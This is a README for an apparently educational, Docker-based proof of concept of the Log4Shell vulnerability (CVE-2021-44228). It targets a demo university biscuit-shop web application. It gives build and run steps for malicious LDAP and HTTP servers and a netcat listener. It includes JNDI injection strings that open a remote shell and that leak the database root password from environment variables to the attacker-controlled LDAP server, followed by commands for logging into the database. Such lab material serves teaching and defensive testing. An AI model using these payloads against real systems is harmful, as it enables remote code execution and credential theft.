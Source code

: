 # SpringLog4Shell PoC

This is a *proof of concept* of the Log4Shell vulnerability, [CVE-2021-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228), which is completely docker based, features a concrete web application with a database (a university of Geneva biscuits catering service) and a malicious HTTP and LDAP server that deliver malicious payloads. 

## Building the Images

To build the docker images, please run the following commands from the repository folder :

```bash
cd snoopy-http-server && docker build . && cd ..
cd snoopy-ldap-server && docker build . && cd ..
cd snoopy-netcat-listener && docker build . && cd ..
cd biscuits-application && docker build . && cd ..
```

## Starting up the exploit

Run the following commands in the right order after building all the docker images : 

```bash
docker compose up -d database       # wait 10 seconds for the database to spinup, 
docker compose up application       # before launching application
docker compose up snoopy-http-server
docker compose up snoopy-ldap-server
```

Connect to `http://localhost:8080` to access the biscuits shop frontend, use username `ben` and password `benspassword`. 

### Remote Shell Exploit

Startup a netcat server to listen for an incoming TCP remote shell connection using 

```docker compose run --name snoopy-netcat-listener snoopy-netcat-listener``` 

and inject `${jndi:ldap://snoopy-ldap-server:1389/ExploitRCE}` into the frontend. 
Once the remote shell is started you can get .env values via,
```
echo $MYSQL_HOST
mysql-database
echo $MYSQL_ROOT_PASSWORD 
secret
```

Note : It is essential to use **docker compose run and not up** as the command above describes.
Indeed, docker compose up will not work correctly in interactive mode, see [this SO thread](https://stackoverflow.com/questions/36249744/interactive-shell-using-docker-compose).

### Information Leakage via Injection

The CVE is still exploitable even if you disable remote code base url trust via `com.sun.jndi.ldap.object.trustURLCodebase=false`. 
You can set this property to false inside `biscuits-application/src/mainBiscuitsApplication.java` and inject the following 
value as email : 

```
${jndi:ldap://snoopy-ldap-server:1389/${env:MYSQL_ROOT_PASSWORD}}
```


### Accessing the various services,

Once the login information compromised, you can access the mysql database via, 

```mysql -h 127.0.0.1 -P 3306 -u root -p biscuits```

For the sake of testing, you can query the spring LDAP authentication server via 

```
ldapsearch -x -D "uid=ben,ou=people,dc=unige,dc=ch" -W -H ldap://0.0.0.0:8389 -b "ou=people,dc=unige,dc=ch" -s sub "uid=*"
```

Query the malicious LDAP server via 

```
ldapsearch -H ldap://0.0.0.0:1389 -b "dc=example,dc=com" -s sub -x "(objectclass=*)"
``` 

Access the malicious http server at http://localhost:8000 to view what files are being hosted.

### Dependencies : 

Working install of docker and docker compose. 

